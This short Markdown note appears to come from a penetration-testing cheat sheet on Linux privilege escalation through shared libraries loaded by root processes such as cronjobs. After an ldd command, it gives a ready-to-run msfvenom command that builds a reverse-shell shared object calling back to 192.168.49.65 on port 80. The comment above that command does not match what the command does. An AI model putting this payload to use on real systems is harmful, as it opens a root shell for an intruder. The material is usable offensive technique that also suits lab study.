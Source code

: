 # Privesc

### Shared Library

If you can control a library path that an application uses running as root like a cronjob then you can create a library with command execution.

```
#view shared libraries of a binary
ldd /path/to/binary
```

```
#check if its 32bit or 64bit
msfvenom --platform linux -f elf-so -p linux/x64/shell_reverse_tcp LHOST=192.168.49.65 LPORT=80 -o utils.so
```
